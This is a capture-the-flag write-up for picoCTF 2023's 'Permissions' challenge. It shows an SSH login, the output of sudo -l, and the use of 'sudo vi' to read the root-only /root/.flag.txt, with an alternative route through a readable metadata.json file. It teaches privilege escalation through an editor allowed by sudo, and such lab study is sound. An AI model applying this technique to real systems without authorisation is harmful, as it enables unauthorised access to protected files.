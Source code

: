 # Permissions

- [Challenge information](#challenge-information)
- [The likely intended solution](#the-likely-intended-solution)
- [An alternative solution](#an-alternative-solution)
- [References](#references)

## Challenge information
```
Points: 100
Tags: picoCTF 2023, General Skills, vim
Author: GEOFFREY NJOGU

Description:
Can you read files in the root file?

The system admin has provisioned an account for you on the main server:
ssh -p 59219 picoplayer@saturn.picoctf.net
Password: pEN9KN1qYm

Can you login and read the root file?

Hints:
(None)
```
Challenge link: [https://play.picoctf.org/practice/challenge/363](https://play.picoctf.org/practice/challenge/363)

## The likely intended solution

When the description says read the 'root file' I think they rather meant the /root directory!

We start by connecting to the server with SSH
```bash
┌──(kali㉿kali)-[/picoCTF/picoCTF_2023/General_Skills/Permissions]
└─$ ssh -p 59219 picoplayer@saturn.picoctf.net
The authenticity of host '[saturn.picoctf.net]:59219 ([13.59.203.175]:59219)' can't be established.
ED25519 key fingerprint is SHA256:Km7la74G7/fztU37KiXuMDlWhxowKKAxA3TjvWy1Y0o.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[saturn.picoctf.net]:59219' (ED25519) to the list of known hosts.
picoplayer@saturn.picoctf.net's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.19.0-1024-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

picoplayer@challenge:~$ 
```

Let's change directory and look for the /root directory.
```bash
picoplayer@challenge:~$ cd /
picoplayer@challenge:/$ ls -la
total 0
drwxr-xr-x    1 root   root     51 Jul 26 12:00 .
drwxr-xr-x    1 root   root     51 Jul 26 12:00 ..
-rwxr-xr-x    1 root   root      0 Jul 26 12:00 .dockerenv
lrwxrwxrwx    1 root   root      7 Mar  8 02:05 bin -> usr/bin
drwxr-xr-x    2 root   root      6 Apr 15  2020 boot
drwxr-xr-x    1 root   root     21 Mar 16 02:29 challenge
drwxr-xr-x    5 root   root    340 Jul 26 12:00 dev
drwxr-xr-x    1 root   root     66 Jul 26 12:00 etc
drwxr-xr-x    1 root   root     24 Mar 16 02:29 home
lrwxrwxrwx    1 root   root      7 Mar  8 02:05 lib -> usr/lib
lrwxrwxrwx    1 root   root      9 Mar  8 02:05 lib32 -> usr/lib32
lrwxrwxrwx    1 root   root      9 Mar  8 02:05 lib64 -> usr/lib64
lrwxrwxrwx    1 root   root     10 Mar  8 02:05 libx32 -> usr/libx32
drwxr-xr-x    2 root   root      6 Mar  8 02:06 media
drwxr-xr-x    2 root   root      6 Mar  8 02:06 mnt
drwxr-xr-x    2 root   root      6 Mar  8 02:06 opt
dr-xr-xr-x 2247 nobody nogroup   0 Jul 26 12:00 proc
drwx------    1 root   root     23 Mar 16 02:29 root                         <------- Here!
drwxr-xr-x    1 root   root     54 Jul 26 12:07 run
lrwxrwxrwx    1 root   root      8 Mar  8 02:05 sbin -> usr/sbin
drwxr-xr-x    2 root   root      6 Mar  8 02:06 srv
dr-xr-xr-x   13 nobody nogroup   0 Jul 26 12:00 sys
drwxrwxrwt    1 root   root      6 Mar 16 02:29 tmp
drwxr-xr-x    1 root   root     18 Mar  8 02:06 usr
drwxr-xr-x    1 root   root     17 Mar  8 02:09 var
```

We can see that it is a directory rather than a file and that the only user that have permissions to read the directory is root.

So what can we do to escalate our privileges? Let's check what commands we can run as root via `sudo`.
This is done with `sudo -l`.
```bash
picoplayer@challenge:/$ sudo -l
[sudo] password for picoplayer: 
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi

```

Ah, all users can run the `vi` text editor as root. This means we can read the /root directory as a file with it.
Run `sudo vi /root` and you get
```
" ============================================================================
" Netrw Directory Listing                                        (netrw v165)
"   /root
"   Sorted by      name
"   Sort sequence: [\/]$,\<core\%(\.\d\+\)\=\>,\.h$,\.c$,\.cpp$,\~\=\*$,*,\.o$,\.obj$,\.info$,\.swp$,\.bak$,\~$
"   Quick Help: <F1>:help  -:go up dir  D:delete  R:rename  s:sort-by  x:special
" ==============================================================================
../                                                                                                                                                                                             
./
.vim/
.bashrc
.flag.txt                <------- Here!
.profile
~      
<---snip--->
```

Press `Esc` and then type `:q` (followed by enter) to quit the `vi` editor.

We can see that there is a file named `.flag.txt` in the `/root` directory.

Reading that file in the same manner with `sudo vi /root/.flag.txt` gets you the flag.

## An alternative solution

When I looked through the file and directory listing in `/` I also noticed that there is a directory called `challenge`.
```bash
picoplayer@challenge:/$ ls -la
total 0
drwxr-xr-x    1 root   root     51 Jul 26 12:00 .
drwxr-xr-x    1 root   root     51 Jul 26 12:00 ..
-rwxr-xr-x    1 root   root      0 Jul 26 12:00 .dockerenv
lrwxrwxrwx    1 root   root      7 Mar  8 02:05 bin -> usr/bin
drwxr-xr-x    2 root   root      6 Apr 15  2020 boot
drwxr-xr-x    1 root   root     21 Mar 16 02:29 challenge             <------- Here!
drwxr-xr-x    5 root   root    340 Jul 26 12:00 dev
drwxr-xr-x    1 root   root     66 Jul 26 12:00 etc
drwxr-xr-x    1 root   root     24 Mar 16 02:29 home
lrwxrwxrwx    1 root   root      7 Mar  8 02:05 lib -> usr/lib
lrwxrwxrwx    1 root   root      9 Mar  8 02:05 lib32 -> usr/lib32
lrwxrwxrwx    1 root   root      9 Mar  8 02:05 lib64 -> usr/lib64
lrwxrwxrwx    1 root   root     10 Mar  8 02:05 libx32 -> usr/libx32
drwxr-xr-x    2 root   root      6 Mar  8 02:06 media
drwxr-xr-x    2 root   root      6 Mar  8 02:06 mnt
drwxr-xr-x    2 root   root      6 Mar  8 02:06 opt
dr-xr-xr-x 2247 nobody nogroup   0 Jul 26 12:00 proc
drwx------    1 root   root     23 Mar 16 02:29 root                         
drwxr-xr-x    1 root   root     54 Jul 26 12:07 run
lrwxrwxrwx    1 root   root      8 Mar  8 02:05 sbin -> usr/sbin
drwxr-xr-x    2 root   root      6 Mar  8 02:06 srv
dr-xr-xr-x   13 nobody nogroup   0 Jul 26 12:00 sys
drwxrwxrwt    1 root   root      6 Mar 16 02:29 tmp
drwxr-xr-x    1 root   root     18 Mar  8 02:06 usr
drwxr-xr-x    1 root   root     17 Mar  8 02:09 var
```

It's readable for all users so let's check that out
```bash
picoplayer@challenge:/$ cd challenge/
picoplayer@challenge:/challenge$ ls -la
total 4
drwxr-xr-x 1 root root 21 Mar 16 02:29 .
drwxr-xr-x 1 root root 51 Jul 19 06:06 ..
-rw-r--r-- 1 root root 98 Mar 16 02:29 metadata.json
```

Let's `cat` the file to view its contents.
```bash
picoplayer@challenge:/challenge$ cat metadata.json
{"flag": "picoCTF{<REDACTED>}", "username": "picoplayer", "password": "pEN9KN1qYm"}
```

And voilà there is the flag in another way!

For additional information, please see the references below.

## References

- [Wikipedia - File-system permissions](https://en.wikipedia.org/wiki/File-system_permissions)
- [Wikipedia - sudo](https://en.wikipedia.org/wiki/Sudo)
